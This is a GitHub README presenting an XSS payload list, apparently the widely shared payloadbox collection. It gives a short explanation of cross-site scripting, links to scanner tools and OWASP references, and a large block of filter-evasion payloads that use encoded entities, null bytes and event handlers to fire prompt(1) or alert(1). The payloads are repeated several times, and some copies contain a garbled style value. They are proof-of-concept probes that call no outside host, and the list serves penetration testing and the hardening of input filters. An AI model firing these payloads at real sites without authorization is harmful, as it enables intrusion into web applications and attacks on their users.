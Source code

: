 ### 🚀 Cross Site Scripting ( XSS ) Vulnerability Payload List 🚀

<img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/xss-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/xss-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/xss-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/xss-payload-list"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/xss-payload-list/1">

##### Overview : 

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of XSS flaws, see: [Types of Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting).

#### XSS Vulneability Scanner Tool's :

* [XSStrike](https://github.com/UltimateHackers/XSStrike)

* [BruteXSS Terminal](https://github.com/shawarkhanethicalhacker/BruteXSS)

* [BruteXSS GUI](https://github.com/rajeshmajumdar/BruteXSS)

* [XSS Scanner Online](http://xss-scanner.com/)

* [XSSer](https://tools.kali.org/web-applications/xsser)

* [xsscrapy](https://github.com/DanMcInerney/xsscrapy)

#### XSS Payload List :

```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Ismail Tasdelen -->
<!--      Linkedin : https://www.linkedin.com/in/ismailtasdelen/ -->
<!--        GitHub : https://github.com/ismailtasdelen/ -->
<!--       Twitter : https://twitter.com/ismailtsdln -->
<!--        Medium : https://medium.com/@ismailtasdelen -->



<iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>
<ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?
</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(1)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(1)
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">
<var onmouseover="prompt(1)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(1)'">
<iframe/src \/\/onload = prompt(1)
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x</button>
<iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>
<ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?
</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(1)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(1)
<iframe style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">
<var onmouseover="prompt(1)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(1)'">
<iframe/src \/\/onload = prompt(1)
<div style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x</button>
0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
0\"autofocus/onfocus=alert(1)--><video/poster/ error=prompt(2)>"-confirm(3)-"
<iframe  src="&Tab;javascript:prompt(1)&Tab;">
<ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?
<form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(1)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(1)
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">
<var onmouseover="prompt(1)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(1)'">
<iframe/src \/\/onload = prompt(1)
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x</button>
<iframe  src="&Tab;javascript:prompt(1)&Tab;">
<ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?
</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(1)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(1)
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">
<var onmouseover="prompt(1)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(1)'">
<iframe/src \/\/onload = prompt(1)
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x</button>



#### References :

###### Cross-site Scripting (XSS)

* 👉 https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)

###### XSS (Cross Site Scripting) Prevention Cheat Sheet

* 👉 https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet

###### DOM based XSS Prevention Cheat Sheet

* 👉 https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet

###### Testing for Reflected Cross site scripting (OTG-INPVAL-001)

* 👉 https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)

###### Testing for Stored Cross site scripting (OTG-INPVAL-002)

* 👉 https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)

###### Testing for DOM-based Cross site scripting (OTG-CLIENT-001)

* 👉 https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001)

###### DOM Based XSS

* 👉 https://www.owasp.org/index.php/DOM_Based_XSS

###### Cross-Site Scripting (XSS) Cheat Sheet | Veracode

* 👉 https://www.veracode.com/security/xss

#### Recommended books :

* [XSS Attacks: Cross-site Scripting Exploits and Defense](https://books.google.com.tr/books/about/XSS_Attacks.html?id=dPhqDe0WHZ8C)

* [XSS Cheat Sheet](https://leanpub.com/xss)


### Cloning an Existing Repository ( Clone with HTTPS )
```
root@ismailtasdelen:~# git clone https://github.com/ismailtasdelen/xss-payload-list.git
```

### Cloning an Existing Repository ( Clone with SSH )
```
root@ismailtasdelen:~# git clone git@github.com:ismailtasdelen/xss-payload-list.git
```

### Published Website :

##### Kitploit - https://www.kitploit.com/2018/05/xss-payload-list-cross-site-scripting.html

### Donate!

Support the authors:

#### LiberaPay:

<noscript><a href="https://liberapay.com/ismailtasdelen/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
